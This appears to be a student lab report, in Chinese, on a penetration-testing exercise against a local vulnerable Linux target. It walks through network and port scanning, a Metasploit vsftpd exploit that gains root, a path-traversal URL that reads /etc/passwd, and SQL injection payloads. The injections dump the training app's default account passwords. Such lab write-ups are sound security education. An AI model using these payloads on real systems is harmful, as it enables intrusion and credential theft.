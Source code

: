 
# <center>《网络攻防实战》实验报告</center>

### **第2次实验：渗透测试**

### 小组成员姓名：金宇航、成浩鹏

### 小组成员学号：181250062、181250020

### 18级软件学院大一班

### 小组成员邮箱：181250062@smail.nju.edu.cn、181250020@smail.nju.edu.cn

### 时间：2019.10.14

---

## 一、 实验目的

本次实验预期要学习到的知识、方法等

## 二、 实验内容

1. 使用netdiscover扫描地址，找到若干个地址

   ![](img/netdiscover.png)

2. 用nmap扫描找到的IP，发现192.168.8.6这个IP下开放的端口最多，可以确定是Linux靶机

   ![](img/nmap.png)

3. 用nc进行全连接端口扫描

   ![](img/ncport.png)

4. 用nmap扫描靶机的服务

   ![](img/nmapserver.png)

   ![](img/nmapserver2.png)

5. nmap扫描靶机的操作系统

   ![](img/os.png)

6. 连接25端口，判断是否存在root的用户帐号

   ![](img/smtp.png)

7. 在metasploit中查找vsftpd的模块，调用并且修改地址为靶机，进行渗透。发现渗透成功并且获得root权限

   ![](img/vsftpd.png)

8. 访问`http://192.168.8.6/mutillidae/index.php?page=/etc/passwd`地址可以访问靶机上的`/etc/passwd`文件

   ![](img/mutilllidae.png)

9. 在register页面里，先在signature输入框输入`' #`然后提交表单，引发错误，可以看到sql的语句中使用了`INSERT INTO ... VALUES...`语句，那么就可以实现一次插入多条记录。在signature中输入`'), ('admin', 'admin', '') #`可以实现同事插入一条admin的记录，就做到了修改admin的密码，可以以admin登录了

   ![](img/register1.png)

   ![](img/register2.png)

10. 在sql注入提取用户数据界面, 输入命令"'or 1=1#"绕过验证,获取用户信息
   Username=admin
Password=adminpass
Signature=Monkey!

Username=adrian
Password=somepassword
Signature=Zombie Films Rock!

Username=john
Password=monkey
Signature=I like the smell of confunk

Username=jeremy
Password=password
Signature=d1373 1337 speak

Username=bryce
Password=password
Signature=I Love SANS

Username=samurai
Password=samurai
Signature=Carving Fools

Username=jim
Password=password
Signature=Jim Rome is Burning

Username=bobby
Password=password
Signature=Hank is my dad

Username=simba
Password=password
Signature=I am a cat

Username=dreveil
Password=password
Signature=Preparation H

Username=scotty
Password=password
Signature=Scotty Do

Username=cal
Password=password
Signature=Go Wildcats

Username=john
Password=password
Signature=Do the Duggie!

Username=kevin
Password=42
Signature=Doug Adams rocks

Username=dave
Password=set
Signature=Bet on S.E.T. FTW

Username=ed
Password=pentest
Signature=Commandline KungFu anyone?

## 三、 实验结果

漏洞索引：

OSVDB (73573)

## 四、 实验中遇到的问题及解决方案

1. 用nmap对smb扫描时，出现脚本运行错误

   ![](img/nmapsmb.png)

## 五、 组员分工

给出组员在完成这个实验中的具体分工情况。

## 六、 实验的启示/意见和建议

---

附：本次实验你总共用了多长时间？包括学习相关知识时间、完成实验内容时间、完成实验报告时间。（仅做统计用，时间长短不影响本次实验的成绩。）